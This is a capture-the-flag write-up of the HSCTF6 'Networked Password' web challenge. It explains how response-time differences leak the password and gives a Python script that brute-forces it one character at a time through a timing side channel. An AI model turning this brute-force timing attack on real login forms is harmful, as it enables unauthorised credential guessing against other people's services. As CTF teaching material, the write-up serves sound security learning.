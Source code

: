 ```yaml
---
layout: default
title: HSCTF6 - Networked Password
---
```


<h1 align="center">[HSCTF6 - Networked Password]</h1>

## Challenge Description:
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/hsctf6_networked_password/challdesc.png"></p><br>
## Hint:
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/hsctf6_networked_password/hint.png"></p><br>

We are given a website.<br>
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/hsctf6_networked_password/index.png"></p><br>
Hmm... Seems like it's just a simple form. Let's take a look at the page source see if we can find anything.<br>
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/hsctf6_networked_password/page_source.png"></p><br>
Nothing, just a form which points to itself and an input box. What now? :)<br>
Well, let's just try to send something to the server and see the response.
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/hsctf6_networked_password/fuzzing.png"></p><br>
It seems, the <i>password</i> is the only thing sent to the server and if we don't provide the correct password it will return "Invalid Password". But what is the password? How do we find it?<br>
According to the challenge description, at some point the website's response is so damn slow. So, after some fuzzings, the writer found something interesting.<br>
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/hsctf6_networked_password/requests.png"></p><br>
When we send 2 requests, one with random string and one with not-so random string, it gives 2 very different response time.<br>
Random input:
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/hsctf6_networked_password/random_input.png"></p><br>
Not-so random input:
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/hsctf6_networked_password/specified_input.png"></p><br>
It seems when we input a random string, which is totally wrong, it gives a shorter response time. But, when we input a <i>specified</i> string it gives us a totally different response time. Looks like this is a bruteforce with timing attack problem. And like <a href="https://blog.xarkangels.com/ctf/hsctf6/super_secure_system/">Super Secure System</a> problem, we have to bruteforce the flag. But knowing this is a timing attack, it will take a fucking long time. To automate the process, we can use this python script.<br>
```python
import requests, string

url = 'https://networked-password.web.chal.hsctf.com'
charset = string.letters + string.digits + string.punctuation
# print charset
flag = "hsctf{"
resp = 0
char = ""

while flag[-1] != "}":
    for i in charset:
        payload = {"password":flag + i}
        # print "[*] Trying: " + flag + i
        r = requests.post(url, data = payload)
        if r.elapsed.total_seconds() > resp:
            resp = r.elapsed.total_seconds()
            char = i
    flag += char
    resp = 0
    print "[+] Flag: " + flag
```
The script simply make a bruteforce request and capture the character which return the highest response time. In here, the writer split the bruteforce process into parts because of that shitty laptop, the bruteforce process took like more than 2 hours. But here is the last part of the bruteforce.<br>
<p align="center"><img src="https://blog.xarkangels.com/ctf/assets/hsctf6_networked_password/flag.png"></p><br>
Flag: hsctf{sm0l_fl4g}
